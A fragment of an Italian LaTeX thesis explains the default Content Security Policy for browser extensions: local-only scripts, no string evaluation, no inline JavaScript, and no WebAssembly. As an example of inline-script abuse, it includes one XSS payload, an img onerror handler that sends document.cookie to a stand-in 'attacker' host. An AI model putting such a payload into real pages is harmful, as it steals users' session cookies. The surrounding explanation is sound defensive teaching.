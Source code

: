\documentclass{sapthesis}
\newcommand{\code}[1]{\texttt{#1}}
\newcommand{\JS}{Javascript}
\newcommand{\manifest}{\code{manifest.json}}
\begin{document}
                \begin{itemize}
                    \item Risorse \code{<script>} e \code{<object>} possono essere caricate solo da origini
                            locali all'estensione (ovvero file collocati nella stessa cartella). Tutte le
                            richieste che cercheranno di includere codice nella pagina proveniente da origini
                            considerate insicure verranno bloccate silenziosamente.
    
                    \item Non è concesso evaluare stringhe come codice \JS. L'uso di funzioni come
                            \code{eval()}, \code{setTimeout()}, \code{setInterval()} e \code{Function()}
                            per eseguire il contenuto di stringhe come codice \JS viene bloccato silenziosamente.
                    
                    \item Non è consentito eseguire codice \JS inline. Con codice inline si intende codice
                            \JS hard-coded in elementi html, come quello contenuto nel tag \code{<script>}
                            quando non viene utilizzato per includere file script. Un esempio è l'abuso degli
                            event listener dichiarabili direttamente sui tag html per eseguire \JS malevolo:\\
                            \code{<img src="invalid" onerror=fetch("http://attacker/?" + document.cookie) >}        
    
                    \item Non è consentito eseguire codice WebAssembly. Si tratta di codice in formato binario
                            pensato per applicazioni ad alta efficienza rilasciabili sul web. Inoltre è un target
                            di compilazione per compilatori C,C++,C\# e Rust, permettendo di scrivere applicazioni
                            web anche in questi linguaggi.
                
                \end{itemize}
                Questa politica è applicata su ogni estensione che non abbia esplicitamente modificato la voce
                \code{"content\_security\_policy"} del suo \manifest e non è modificabile programmaticamente.
   

\chapter{WebExtension nel dettaglio}
\label{cap:webextension-dettaglio}
\end{document}
